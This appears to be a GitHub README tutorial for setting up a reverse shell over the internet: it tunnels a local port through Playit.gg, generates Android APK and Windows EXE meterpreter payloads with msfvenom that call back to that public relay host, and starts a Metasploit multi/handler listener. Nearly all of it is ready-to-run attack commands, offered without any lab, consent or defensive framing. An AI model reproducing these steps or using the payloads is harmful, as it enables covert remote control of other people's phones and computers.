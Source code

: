 # 💻 Playit.gg TCP Reverse Shell Port Forwarding 

🛑 YOUTUBE Video: https://youtu.be/uoOuLqkmidU?si=Lv2b5K2UmRBsGnLi

## 🔧 Step 1: Set Up Port Forwarding with Playit.gg
Playit.gg helps forward your local port to the public internet.

Download and install from: https://playit.gg

# Run the Playit CLI:
```
./playit-cli
```

Choose:

Forward TCP port

Enter local port: 4444 (recommended)

You’ll get a public endpoint:
```
Forwarding: playit.gg:12345 → 127.0.0.1:4444
```
🧠 This public IP/Port will be used in payload generation

# 📱 Step 2: Generate Reverse Shell Payloads
Create payloads using msfvenom with your Playit.gg public IP & port.

🔸 Android APK Payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=playit.gg LPORT=12345 -o evil.apk
```

🔹 Windows EXE Payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=playit.gg LPORT=12345 -f exe -o evil.exe
```
# 🧠 Step 3: Start Metasploit Listener
Start Metasploit:

```
msfconsole
```
Use multi/handler:
```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp   # Or windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit -j
```
🧠 LHOST = 0.0.0.0 (listen on all)
🧠 LPORT = local port you’re forwarding (4444)

## 🔄 Flow Recap

| Tool       | LHOST / LPORT                 | Purpose                      |
| ---------- | ----------------------------- | ---------------------------- |
| Payload    | playit.gg / 12345             | Connects back to your system |
| Playit.gg  | Forwards to 127.0.0.1:4444    | Tunnels to your listener     |
| Metasploit | LHOST = 0.0.0.0, LPORT = 4444 | Catches reverse shell        |

